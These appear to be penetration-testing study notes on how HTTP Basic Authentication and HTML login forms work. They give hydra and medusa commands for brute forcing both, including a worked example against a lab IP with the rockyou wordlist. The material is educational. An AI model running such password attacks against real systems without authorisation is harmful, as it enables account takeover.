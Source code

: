 >[!code]- Basic HTTP Authentication
>>[!code]- The general process
>>1. User requests access to a webpage
>>2. Server responds with a `401 Unauthorized` status code and a `WWW-Authenticate` header, thus prompting the user's browser to present a login box
>>3. Once the user provides a username and password, the browser concatenates them into a single string, separated by a colon
>>4. The string is then base64 encoded and sent within the `Authorization` header of any subsequent requests, using the format `Basic <encoded_credentials>`
>>5. The server decodes the credentials, verifies them, and grants or denies access accordingly
>>
>>The headers for Basic Auth in a HTTP GET request:
>>
>>![[Images/Pasted image 20250722081708.png]]
>
>###### Brute forcing
>```powershell
>hydra -l basic-auth-user -P password_list 127.0.0.1 http-get / -s 81
>
>medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET
>```

>[!code]- Login Forms
>>[!code]- Explained
>>Example login form HTML:
>>
>>![[Images/Pasted image 20250722083458.png]]
>>
>>Upon clicking the `submit` button, the following POST request is sent to `/login`:
>>
>>![[Images/Pasted image 20250722083537.png]]
>>
>>- The `Content-Type` header specifies how the data is encoded in the request body
>>- The `Content-Length` header indicates the size of the data being sent
>
>###### Brute forcing
>
>```powershell
>hydra [options] target http-post-form "path:params:condition_string"
>hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
>hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
>hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
>
># Condition string
># F=... to determine when a login attempt has failed
># For example `F=Invalid credentials`
>
># S=... to determine when a login attempt has succeeded
># For example `S=302` or `S=Dashboard`
>
># Altogether now
>hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
>
>medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"
>```
